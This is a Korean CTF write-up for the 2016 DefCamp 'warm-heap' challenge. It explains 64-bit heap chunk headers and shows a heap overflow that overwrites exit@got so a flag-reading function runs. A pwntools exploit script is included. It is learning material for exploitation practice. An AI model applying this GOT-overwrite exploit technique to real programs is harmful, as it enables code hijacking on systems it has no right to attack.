 ```yaml
---
title: "2016 DefCamp CTF warm-heap"
date: 2019-12-23
tags: [DefCamp]
categories: [Pwn]
published: false
---
```


Heap Chunk 공부하고자 간단한 Heap Overflow문제를 풀어봤다.

```c
v3 = malloc(16uLL);
```

![](https://user-images.githubusercontent.com/32904385/71335900-3ef14280-2588-11ea-91e8-90097356dda1.png)

16만큼 malloc 해주면 heap 영역에 이렇게 할당되는데 chunk 구조를 보면 64bit 바이너리니까 header에서  `prev_size`와 `size`는 각각 8바이트씩을 차지할거다. 빨간 부분은 `prev_size` , 노란부분은 `size`,  분홍부분은 `mem` 영역일 것이다. 

16만큼 동적할당 해줬으니 사이즈는 총 32일 것이다. 0x20이 아니라 0x21인 이유는 `prev_inuse`가 하위 1비트가 들어가기 때문이다. 현재 chunk가 사용중이므로 1로 설정되어있다. free되면 0이 된다.

```c
*v3 = 1;
```

![](https://user-images.githubusercontent.com/32904385/71335811-d73af780-2587-11ea-833d-e4f2e31fc256.png)

prev_size와 size를 제외하고 다음부터 우리가 할당해준 mem부분이다. 메모리에 1이라는 값을 저장해준다.

```c
*(v3 + 1) = malloc(8uLL);
```

![](https://user-images.githubusercontent.com/32904385/71336728-be344580-258b-11ea-8839-c8416c478361.png)

이 코드로 다음 chunk 주소가  malloc mem안에 들어가게 된다.

```c
v4 = malloc(16uLL);
*v4 = 2;
```

![](https://user-images.githubusercontent.com/32904385/71337150-a8c01b00-258d-11ea-8790-da59aff33a89.png)

이것도 그냥 16만큼 malloc해주고 값을 넣어줬다.

```c
*(v4 + 8) = malloc(8uLL);
```

![](https://user-images.githubusercontent.com/32904385/71337255-28e68080-258e-11ea-8300-a9dc345aa173.png)

이것도 다음 chunk 주소가 malloc mem에 들어가게 된다.

```c
fgets(&input, 4096, stdin);
strcpy(*(v3 + 1), &input);
fgets(&input, 4096, stdin);
strcpy(*(v4 + 8), &input);
exit(0);
```

`0x0000000001CCF090`이 input부분인데 strcpy로 *(v3+1) 에 복사해주고 있다. 여기서 40바이트를 넣고 이 뒤에 다음부터 Heap Oveflow내서 chunk 부분을 덮어쓸 수 있다.

```c
void __noreturn sub_400826()
{
  __int128 lineptr; // [rsp+0h] [rbp-20h]
  FILE *stream; // [rsp+10h] [rbp-10h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  lineptr = 0uLL;
  stream = fopen("flag", "r");
  getline(&lineptr, &lineptr + 1, stream);
  puts(lineptr);
  fflush(stdout);
  free(lineptr);
  _exit(1);
}
```

그래서 40바이트만큼 덮고 그 뒤에 함수의 exit@got주소를 넣고 flag를 읽어주는 함수로 바꿔주면 exit(0);가 됐을 때 flag를 읽어주는 함수가 실행된다.

> exploit.py

```python
from pwn import *

e = ELF('./exp100.bin')
p = process('./exp100.bin')

flag = 0x400826
payload = 'A'*40
payload += p64(e.got['exit'])
p.sendline(payload)
p.sendline(p32(flag))
p.interactive()
```



 